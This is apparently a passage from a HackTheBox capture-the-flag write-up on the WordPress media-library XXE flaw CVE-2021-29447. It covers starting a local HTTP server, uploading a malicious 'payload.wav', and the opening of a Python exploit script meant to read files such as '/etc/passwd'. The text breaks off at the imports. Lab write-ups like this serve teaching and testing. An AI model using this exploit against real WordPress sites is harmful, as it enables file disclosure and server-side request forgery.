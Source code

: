 Start http server -
```bash
python -m http.server 8000
```

Upload "payload.wav" file in wordpress media library.

![](screenshots/http-metapress.htb-wp-admin-manager-xxe.png)

**Exploit Script**
```py
#!/usr/bin/env python3

"""
Author: poorduck
Description: in wordpress version 5.6.0 to 5.7.0 where an an authenticated user with the ability to upload files
             in the "Media Library" can upload a malicious WAVE file that could lead to remote arbitrary file disclosure
             and server-side request forgery (SSRF).
CVE: CVE-2021-29447 https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/

Usage: python3 script.py [FILEPATH]
                        where FILEPATH is the full path of file want to read.

Example: python script.py '/etc/passwd'

Pre-requirements:
    - Remote rhost is added in the "/etc/hosts" file i.e "10.10.11.186 metapress.htb"
    - HackTheBox VPN is connected on "tun0" interface
"""

import requests
from bs4 import BeautifulSoup
from re import findall
import threading
import socketserver
import http.server
from base64 import b64decode
import netifaces as ni
from os import path
from sys import argv

session = requests.Session()
```
